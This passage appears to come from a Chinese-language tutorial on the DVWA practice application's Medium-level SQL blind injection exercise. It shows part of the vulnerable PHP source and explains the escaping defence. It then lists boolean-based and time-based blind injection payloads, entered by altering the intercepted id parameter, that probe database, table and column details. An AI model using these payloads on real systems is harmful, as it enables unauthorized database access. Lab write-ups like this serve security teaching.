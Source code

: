 ```
    else {       1
        // Feedback for end user       2
        echo '<pre>User ID is MISSING from the database.</pre>';       2
    }        2
    //mysql_close();       2
}        2
?>
```




可以看到，Medium级别的代码利用mysql\_real\_escape\_string函数对特殊符号



\\x00,\\n,\\r,\\,’,”,\\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。



[![1.png](http://image.3001.net/images/20161124/14799583709041.png!small)](http://image.3001.net/images/20161124/14799583709041.png)



### ****漏洞利用****



虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数id，提交恶意构造的查询参数。



之前已经介绍了详细的盲注流程，这里就简要演示几个。



首先是**基于布尔的盲注**：



> 抓包改参数id为1 and length(database())=4 #，显示存在，说明数据库名的长度为4个字符；

> 

> 抓包改参数id为1 and length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=9 #，显示存在，说明数据中的第一个表名长度为9个字符；

> 

> 抓包改参数id为1 and (select count(column\_name) from information\_schema.columns where table\_name= 0×7573657273)=8 #，（0×7573657273为users的16进制），显示存在，说明uers表有8个字段。



然后是**基于时间的盲注**：



> 抓包改参数id为1 and if(length(database())=4,sleep(5),1) #，明显延迟，说明数据库名的长度为4个字符；

> 

> 抓包改参数id为1 and if(length(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1))=9,sleep(5),1) #，明显延迟，说明数据中的第一个表名长度为9个字符；

> 
